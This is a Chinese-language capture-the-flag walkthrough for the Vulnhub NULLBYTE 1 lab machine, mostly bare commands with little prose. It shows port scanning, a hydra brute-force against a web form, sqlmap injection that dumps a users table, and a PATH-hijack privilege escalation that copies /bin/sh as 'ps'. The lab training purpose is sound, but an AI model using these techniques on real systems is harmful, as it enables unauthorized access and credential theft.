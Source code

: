 ```yaml
---
title: Vulnhub 126 NULLBYTE 1
date: 2015-08-01
---
```


靶机链接：<https://www.vulnhub.com/entry/nullbyte-1,126/>

## 环境配置

| 名称        | IP             |
| ----------- | -------------- |
| Kali Linux  | 192.168.88.135 |
| NULLBYTE: 1 | 192.168.88.152 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.152
$ sudo nmap -v -A -p- $rip
```

![](./1.webp)

```bash
$ exiftool main.gif 
```















```bash
$ hydra -l "" -P /usr/share/dirb/wordlists/big.txt 192.168.88.152 http-post-form 
```





```bash
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test"
```



```bash
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --dbs
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --tables -D seth
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --dump -T users  -D seth
```







```bash
$ cp /bin/sh /tmp/ps
$ echo $PATH
$ export PATH=/tmp/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
$ ./procwatch
```

